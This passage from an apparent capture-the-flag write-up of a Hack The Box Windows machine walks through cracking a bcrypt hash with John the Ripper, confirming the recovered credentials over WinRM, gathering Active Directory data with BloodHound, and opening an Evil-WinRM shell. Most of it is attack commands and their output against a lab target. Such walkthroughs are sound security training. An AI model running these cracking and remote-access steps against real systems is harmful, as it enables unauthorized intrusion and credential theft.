 **Hash Cracking**

After cracking, we successfully recovered the password for user `sara.b`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash
```

```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ echo '$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6' > sara_hash
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt sara_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (?)     
1g 0:00:00:01 DONE (2025-06-01 14:31) 0.6849g/s 8383p/s 8383c/s 8383C/s delboy..vallejo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

- **Username:** sara.b  
- **Password:** Blink182

## Access as Sara

Valid credentials for `sara.b` were confirmed via WinRM:

```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ nxc winrm 10.10.11.71 -u sara.b -p Blink182
WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\sara.b:Blink182 (Pwn3d!)
                                                     
```

Before logging in as sara.b, data collection for Active Directory enumeration was performed:

```
bloodhound-python -dc dc01.certificate.htb  -u 'sara.b' -p 'Blink182' -d certificate.htb -c All --zip -ns 10.10.11.71
```


Connected to `sara.b` and found a `WS-01` folder in **Documents** containing `Description.txt` and a packet capture:

```
evil-winrm -i 10.10.11.71 -u sara.b -p 'Blink182'                               
```
```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ evil-winrm -i 10.10.11.71 -u sara.b -p 'Blink182'                               
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents> ls
```